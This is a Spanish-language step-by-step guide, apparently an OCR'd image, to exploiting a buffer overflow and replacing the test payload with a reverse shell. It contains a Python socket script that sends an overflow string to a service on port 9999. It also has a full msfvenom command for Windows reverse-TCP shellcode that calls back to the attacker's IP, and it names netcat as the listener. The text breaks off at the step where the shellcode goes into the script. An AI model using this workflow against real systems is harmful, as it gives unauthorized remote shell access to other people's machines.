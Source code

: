 - 🐍 Python (para ejecutar y modificar el script)
- 🧰 `msfvenom` (para generar el payload real)
- 🔊 `netcat` (para recibir la shell)

---

#### ✅ Paso 1: Ver el exploit base (ejemplo real en Python)

```python
import socket

ip = "192.168.1.10"
port = 9999
payload = b"A" * 1000  # Payload de prueba (a modificar)

s = socket.socket()
s.connect((ip, port))
s.send(payload)
s.close()
```

### 📌 Problema: Este payload solo hace un desbordamiento.

### ✅ Objetivo: Cambiarlo por **una reverse shell real**.

---

#### ✅ Paso 2: Generar un nuevo payload con `msfvenom`

Usaremos **msfvenom** para generar una **reverse shell en Python**.

---

##### 🧪 Ejemplo para sistema **Windows**:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=TU_IP LPORT=4444 -f python -b "\x00"
```

- `LHOST`: Tu IP (donde escuchará la shell).
- `LPORT`: Puerto a escuchar.
- `-b "\x00"`: Evita bytes nulos (malos para muchos servicios).
- `-f python`: Genera salida en formato Python.

---

✅ Salida esperada:

```python
buf =  b""
buf += b"\xdb\xc3\xd9\x74\x24\xf4\xb8\x6d..."  # Shellcode real
```

---

#### ✅ Paso 3: Reemplazar el payload en el script
